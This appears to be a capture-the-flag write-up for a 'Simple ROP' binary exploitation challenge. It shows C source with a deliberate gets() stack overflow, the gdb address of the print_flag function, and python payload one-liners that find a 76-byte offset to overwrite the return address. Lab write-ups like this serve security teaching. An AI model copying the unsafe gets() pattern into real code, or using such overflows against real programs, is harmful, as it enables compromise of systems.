

Challenge: Simple ROP 
----------------------------------------
Category: Binary Exploitation 
----------------------------------------
120 points 
----------------------------------------

```
Description:

Written by r3ndom

On the shell there is a folder /problems/simple-rop.
Hint: Read flag.txt

Files = Source and Binary
```

``` C
simple-rop.c

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}
```

gdb-peda$ p print_flag
$1 = {<text variable, no debug info>} 0x804851a <print_flag>  ===> address of 'print_flag'

BUFFER = 64

TEST IN LOCAL:

python -c 'print "A"*64+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*68+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*72+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*76+"\x1a\x85\x04\x08"' | ./simple-rop ===> MATCH !



